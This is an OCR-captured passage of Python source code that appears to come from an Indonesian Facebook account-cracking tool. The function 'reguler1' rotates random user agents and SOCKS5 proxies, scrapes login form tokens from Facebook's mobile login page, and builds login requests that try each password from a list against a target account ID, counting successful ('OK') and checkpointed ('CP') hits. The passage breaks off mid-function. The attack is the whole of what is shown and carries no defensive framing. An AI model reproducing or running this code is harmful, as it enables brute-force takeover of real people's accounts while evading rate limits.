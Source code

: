                                          break 
  
                         else: 
                                 continue 
                 except requests.exceptions.ConnectionError: 
                         time.sleep(31) 
         loop+=1 
  
 #-----------------------[ METHOD REGULER ]--------------------# 
 def reguler1(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         prog.update(des,description=f"[bold green]Reguler V1[bold white] {loop}/{len(id)} OK-:[bold green]{ok}[/] CP-:[bold yellow]{cp}[/]") 
         prog.advance(des)  
         for pw in pwv: 
                 try: 
                         if 'ya' in ualuh: ua = ualu[0] 
                         nip=random.choice(prox) 
                         proxs= {'http': 'socks5://'+nip} 
                         link = ses.get('https://m.facebook.com/login.php?skip_api_login=1&api_key=345000986033587&kid_directed_site=0&app_id=345000986033587&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv12.0%2Fdialog%2Foauth%3Fcct_prefetching%3D0%26client_id%3D345000986033587%26cbt%3D1679190355185%26e2e%3D%257B%2522init%2522%253A1679190355186%257D%26ies%3D0%26sdk%3Dandroid-12.2.0%26sso%3Dchrome_custom_tab%26nonce%3D36eab410-3bf2-4a18-92b6-8899482bce03%26scope%3Dopenid%252Cpublic_profile%252Cuser_gender%252Cuser_friends%26state%3D%257B%25220_auth_logger_id%2522%253A%25228fabc5ff-90e2-4258-a451-a1f4a796c348%2522%252C%25223_method%2522%253A%2522custom_tab%2522%252C%25227_challenge%2522%253A%25229v54bbhoj58tns0r4tjn%2522%257D%26default_audience%3Dfriends%26login_behavior%3DNATIVE_WITH_FALLBACK%26redirect_uri%3Dfb345000986033587%253A%252F%252Fauthorize%252F%26auth_type%3Drerequest%26response_type%3Did_token%252Ctoken%252Csigned_request%252Cgraph_domain%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D8fabc5ff-90e2-4258-a451-a1f4a796c348%26tp%3Dunspecified&cancel_url=fb345000986033587%3A%2F%2Fauthorize%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%25228fabc5ff-90e2-4258-a451-a1f4a796c348%2522%252C%25223_method%2522%253A%2522custom_tab%2522%252C%25227_challenge%2522%253A%25229v54bbhoj58tns0r4tjn%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
                         data = { 
 'lsd': re.search('name="lsd" value="(.*?)"',str(link.text)).group(1), 
 'jazoest': re.search('name="jazoest" value="(.*?)"',str(link.text)).group(1), 
 'm_ts': re.search('name="m_ts" value="(.*?)"',str(link.text)).group(1), 
 'li': re.search('name="li" value="(.*?)"',str(link.text)).group(1), 
 'try_number': 0, 
 'unrecognized_tries': 0, 
 'email':idf, 
 'pass':pw, 
 'login':'Masuk', 
 'prefill_contact_point': '', 
 'prefill_source': '', 
 'prefill_type': '', 
 'first_prefill_source': '', 
 'first_prefill_type': '', 
 'had_cp_prefilled': False, 
 'had_password_prefilled': False, 
 'is_smart_lock': False, 
 'bi_xrwh': 0 
 } 